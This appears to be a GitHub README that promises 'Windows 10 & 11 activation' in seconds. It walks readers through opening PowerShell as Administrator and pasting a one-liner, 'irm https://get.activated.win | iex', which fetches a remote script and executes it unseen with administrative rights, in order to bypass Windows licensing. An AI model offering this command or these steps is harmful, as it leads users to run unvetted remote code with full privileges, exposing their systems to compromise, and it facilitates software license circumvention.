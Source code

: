 # Window-Activation-Trick-Command
Windows 10 &amp; 11 Activation: 10-Second Solution Using Powershell 


This repository contains a way that can activate Windows 10 and 11 in few seconds. The methodes is compatible with home, home N, Home single lang, Home country specific, professional, education and enterprise versions of Windows.

# PowerShell COMMAND 1

## Windows activation using (PowerShell)

## Step 1 
All you need to do is hit the start or search icon and type the "PowerShell" in the search box.

![image](https://github.com/user-attachments/assets/9022d236-0b32-494d-b055-1b5cfc1c4dd9)

#
## Step 2
Next, you must click on the Run as Administrator to start PowerShell, in this case we need to run with administrative privileges.

![image](https://github.com/user-attachments/assets/d3901eb4-b130-4f18-b7a4-6d010fabe4fc)
#
## Step 3
Now, after a brief pause to allow for execution, please copy this line:

```CSS
irm https://get.activated.win | iex
```
#
## Step 4
Now paste it (with right-click) and hit the enter key. In the newly opened window, there are several options available, from which we must select option 1 and wait a few seconds to complete.



![image](https://github.com/user-attachments/assets/71aa0d37-d260-43c6-9f93-fdd33ffe93d6)
#


## Congratulations,
